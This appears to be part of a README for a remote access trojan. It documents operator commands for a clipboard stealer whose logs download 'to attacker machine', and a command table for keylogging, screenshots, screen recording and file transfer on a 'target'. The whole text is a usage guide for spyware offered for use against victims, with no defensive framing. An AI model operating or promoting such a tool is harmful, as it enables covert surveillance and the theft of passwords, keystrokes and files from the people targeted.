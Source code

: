 #### Clipboard Stealer

```bash
# Start clipboard monitoring
clipboard_start

# Check clipboard monitoring status
clipboard_status

# Get current clipboard content
clipboard_get

# Set clipboard content
clipboard_set "Your text here"

# Download clipboard log (auto-downloads to attacker machine)
clipboard_dump
# File saved as: clipboard_dump_YYYYMMDD_HHMMSS.txt

# List clipboard logs
clipboard_list

# Clear clipboard log on target
clipboard_clear

# Stop clipboard monitoring
clipboard_stop
```

### All Commands

| Category        | Command                     | Description                             |
| --------------- | --------------------------- | --------------------------------------- |
| **Help**        | `help`                      | Show all available commands             |
| **System**      | `sysinfo`                   | Display system information              |
|                 | `cd <dir>`                  | Change directory                        |
| **Files**       | `download <file>`           | Download file from target               |
|                 | `upload <file>`             | Upload file to target                   |
| **Keylogger**   | `keylog_start`              | Start keystroke capture                 |
|                 | `keylog_stop`               | Stop keylogger                          |
|                 | `keylog_status`             | Show keylogger status                   |
|                 | `keylog_dump`               | Download keylog file                    |
|                 | `keylog_clear`              | Clear keylog file                       |
|                 | `keylog_manual <text>`      | Manually log text (fallback mode)       |
| **Screenshots** | `screenshot`                | Capture single screenshot               |
|                 | `screenshot_multi <n> <i>`  | Multiple screenshots (n shots, i sec)   |
|                 | `screenshot_list`           | List captured screenshots               |
| **Recording**   | `record_screen <sec> <fps>` | Record screen (duration, fps)           |
|                 | `record_start <max>`        | Start background screen recording       |
|                 | `record_stop`               | Stop background recording               |
|                 | `record_status`             | Show recording status                   |